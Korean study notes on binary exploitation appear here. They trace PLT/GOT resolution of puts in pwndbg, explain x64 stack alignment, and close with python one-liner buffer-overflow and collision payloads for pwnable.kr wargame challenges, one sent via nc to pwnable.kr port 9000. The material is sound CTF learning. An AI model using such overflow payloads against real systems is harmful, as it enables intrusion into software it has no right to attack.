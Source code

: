 이 함수에서 `puts` 의 주소가 구해지고, GOT 엔트리에 주소를 씀

`puts@plt` 를 두 번째로 호출할 때는 `puts` 의 GOT 엔트리에 실제 `puts` 의 주소인 `0x7ffff7e02ed0` 가 쓰여있어서 바로 `puts` 가 실행
```sh
pwndbg> b *main+33
pwndbg> c
...
──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
   0x401148 <main+18>    call   puts@plt                      <puts@plt>

   0x40114d <main+23>    lea    rax, [rip + 0xecd]
   0x401154 <main+30>    mov    rdi, rax
 ► 0x401157 <main+33>    call   puts@plt                      <puts@plt>
        s: 0x402021 ◂— 'Get address from GOT'
...
pwndbg> si
...
──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
 ► 0x401040       <puts@plt>      endbr64
   0x401044       <puts@plt+4>    bnd jmp qword ptr [rip + 0x2fcd]     <puts>
    ↓
   0x7ffff7e02ed0 <puts>          endbr64
   0x7ffff7e02ed4 <puts+4>        push   r14
   0x7ffff7e02ed6 <puts+6>        push   r13
   0x7ffff7e02ed8 <puts+8>        push   r12
   0x7ffff7e02eda <puts+10>       mov    r12, rdi
   0x7ffff7e02edd <puts+13>       push   rbp
   0x7ffff7e02ede <puts+14>       push   rbx
   0x7ffff7e02edf <puts+15>       sub    rsp, 0x10
   0x7ffff7e02ee3 <puts+19>       call   *ABS*+0xa8720@plt                <*ABS*+0xa8720@plt>
...
```

시스템 해커의 관점에서 보면 PLT에서 GOT를 참조하여 실행 흐름을 옮길 때, GOT의 값을 검증하지 않는다는 보안상의 약점이 있음




# x64 stack alignment
Ubuntu 18.04 버전 이상부터는 효율 문제 때문에 `do_system()`에 `movaps`라는 인스트럭션이 추가되었음
이 인스트럭션 때문에 스택 정렬을 지키지 않으면 Segmentation Fault가 뜸
Linux 64 [ABI](https://software.intel.com/sites/default/files/article/402129/mpx-linux64-abi.pdf)( Application binary interface )에 따르면 프로그램의 흐름( control )이 함수의 entry로 옮겨지는 시점에선 스택 포인터(rsp)+8이 항상 16의 배수여야 함



# `python -c` 을 이용한 exploit

```bash
./bof `python -c "print 'A'*52+'\xbe\xba\xfe\xca'"`
(python -c "print 'A'*52+'\xbe\xba\xfe\xca'";cat) | ./bof
(python -c "print 'A'*52+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000

./col `python -c "print '\xcc\xce\xc5\x06'+'\xc8\xce\xc5\x06'*4"`
```
